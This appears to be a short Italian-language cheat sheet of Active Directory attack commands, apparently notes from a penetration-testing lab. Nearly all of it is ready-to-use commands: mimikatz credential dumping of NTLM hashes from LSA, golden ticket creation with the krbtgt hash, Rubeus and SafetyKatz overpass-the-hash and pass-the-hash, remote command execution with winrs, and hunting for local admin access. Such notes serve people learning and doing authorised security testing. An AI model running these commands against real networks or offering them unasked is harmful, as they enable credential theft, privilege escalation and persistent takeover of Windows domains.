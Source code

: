 ### **ASSICURATI CHE STIA RUNNANDO COME PRIVILEGED**
```powershell
privilege::debug
```
### **DUMPA LE NTLM HASH**
```powershell
lsadump::lsa /patch
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png)
### **GOLDEN TICKET**
Crei un ticket per poter loggare quando vuoi
```MSF
golden_ticket_create //MSF
```
```MSF
lsadump::lsa /inject /name:krbtgt
```
per creare il golden ticket
```MSF
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

### **OVERPASS THE HASH**
```powershell
rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```
```cmd
Rubeus.exe asktgt /user:<USER> /aes256:<HASH> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Use winrs to test
```powershell
winrs -r:dcorp-dc whoami
```
*Using SafetyKatz*
```powershell
.\SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe" "exit"
```
Run invishell and look for other system access
```powershell
Find-PSRemotingLocalAdminAccess -Verbose
```
